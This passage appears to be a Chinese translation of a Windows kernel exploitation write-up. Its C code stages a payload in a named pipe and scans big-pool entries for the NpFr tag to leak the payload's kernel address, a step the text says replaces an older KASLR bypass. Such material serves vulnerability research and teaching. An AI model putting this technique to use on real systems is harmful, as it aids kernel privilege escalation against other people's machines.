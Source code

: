 ```
res = CreatePipe(&readPipe,
                 &writePipe,
                 NULL,
                 sizeof(payLoad));
if (res == FALSE) goto Cleanup;
res = WriteFile(writePipe,
                payLoad,
                sizeof(payLoad),
                &resultLength,
                NULL);
if (res == FALSE) goto Cleanup;

//
// extra code goes here...
//

Cleanup:
CloseHandle(writePipe);
CloseHandle(readPipe);

```

我们已经知道的是 NPFS 读取数据缓冲区的池标识是“NpFr”（你可以用 WinDBG 的!pool 和!poolfind 命令来查找）。因此我们就可以将该标识硬编码进我们的程序段，并通过该标识找到我们所期待的装载有攻击载荷的内核态虚拟地址，而为对付地址随机分配机制的老的 KASLR 绕过的代码就不再需要了。

记住“分页 vs 非分页”标识是被按位与到虚拟地址中（与之前我们所说的标识空闲或已占用的位不同）的，因此我们就可以将其标出来，同时也要考虑池头部的对齐问题（对齐是强制执行的，即使对于“大池”分配也一样）。下面的显示 NpFr 标识内存块地址的程序段，适用于 X86 平台的 Windows：

```
//
// Based on pooltag.txt, we're looking for the following:
// NpFr - npfs.sys - DATA_ENTRY records (r/w buffers)
//
for (entry = bigPoolInfo->AllocatedInfo;
     entry < (PSYSTEM_BIGPOOL_ENTRY)bigPoolInfo +
                                    bigPoolInfo->Count;
     entry++)
{
    if ((entry->NonPaged == 1) &&
        (entry->TagUlong == 'rFpN') &&
        (entry->SizeInBytes == ALIGN_UP(PAGE_SIZE + 44,
                                        ULONGLONG)))
    {
        printf("Kernel payload @ 0x%p\n",
               (ULONG_PTR)entry->VirtualAddress & ~1 +
               PAGE_SIZE);
        break;
    }
}

```

下图是 WinDBG 中的截图证明。
